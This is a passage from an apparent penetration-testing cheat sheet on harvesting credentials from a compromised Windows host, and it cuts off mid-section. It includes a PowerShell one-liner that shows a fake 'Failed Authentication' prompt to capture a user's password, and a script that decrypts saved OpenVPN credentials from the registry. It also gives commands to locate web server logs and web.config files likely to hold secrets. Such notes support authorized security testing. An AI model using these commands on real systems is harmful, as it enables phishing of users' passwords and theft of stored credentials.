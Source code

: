 or

```text
powershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'admin',[Environment]::UserDomainName); $cred.getnetworkcredential().password"
```

### log files

```text
# IIS
C:\inetpub\logs\LogFiles\*
​
#Apache
Get-Childitem –Path C:\ -Include access.log,error.log -File -Recurse -ErrorAction SilentlyContinue
```

### OpenVPN credentials

```text
Add-Type -AssemblyName System.Security
$keys = Get-ChildItem "HKCU:\Software\OpenVPN-GUI\configs"
$items = $keys | ForEach-Object {Get-ItemProperty $_.PsPath}
​
foreach ($item in $items)
{
  $encryptedbytes=$item.'auth-data'
  $entropy=$item.'entropy'
  $entropy=$entropy[0..(($entropy.Length)-2)]
​
  $decryptedbytes = [System.Security.Cryptography.ProtectedData]::Unprotect(
    $encryptedBytes, 
    $entropy, 
    [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
 
  Write-Host ([System.Text.Encoding]::Unicode.GetString($decryptedbytes))
}
```

### IIS web server configurations

```text
Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
C:\inetpub\wwwroot\web.config

Get-Childitem –Path C:\inetpub\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
Get-Childitem –Path C:\xampp\ -Include web.config -File -Recurse -ErrorAction SilentlyContinue
```

### search files for credentials

not as straight forward as linux, we first have to create a listing of all directories in the drive we want \(usually C drive\):
